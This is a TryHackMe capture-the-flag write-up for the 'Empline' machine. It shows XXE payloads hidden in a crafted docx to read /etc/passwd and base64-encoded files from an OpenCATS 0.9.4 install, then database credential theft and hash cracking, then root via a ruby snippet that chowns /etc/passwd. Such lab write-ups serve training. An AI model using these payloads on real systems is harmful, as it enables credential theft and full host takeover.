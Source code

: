 ```yaml
---
title: Empline TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/2.png)

## Enumeration
We access website and review all zones of site.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/3.png)

We list a subdomain that appears to lead to an employee area.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/4.png)

We found deployed an Opencats with version 0.9.4.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/26.png)

### Deficient control panel to authorization control
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/11.png)

Unzip the file and edit the "**document.xml**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/13.png)

We see that the proof of concept works: .
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/17.png)

### Connect to the database
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/24.png)




